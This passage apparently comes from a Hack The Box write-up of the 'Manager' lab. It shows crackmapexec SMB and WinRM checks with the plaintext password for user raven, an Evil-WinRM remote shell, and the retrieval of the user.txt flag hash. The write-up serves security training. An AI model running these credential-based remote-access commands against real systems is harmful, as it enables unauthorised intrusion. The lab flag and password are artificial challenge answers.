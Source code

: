 `crackmapexec smb 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -x 'whoami'`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
```
❌

`crackmapexec winrm 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'`:
```
SMB         10.10.11.236    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.10.11.236    5985   DC01             [*] http://10.10.11.236:5985/wsman
HTTP        10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!) ←
```

`evil-winrm -i 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents>
```

![Victim: raven](https://custom-icon-badges.demolab.com/badge/Victim-raven-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
manager\raven
```

`dir C://Users/raven/Desktop`:
```
    Directory: C:\Users\raven\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/4/2024   5:26 AM             34 user.txt ←
```

`type C://Users/raven/Desktop/user.txt`:
```
284e52b71f22e909a3039b23a422acfd ←
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name     SID
============= ==============================================
manager\raven S-1-5-21-4078382237-1492182817-2568127209-1116


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
```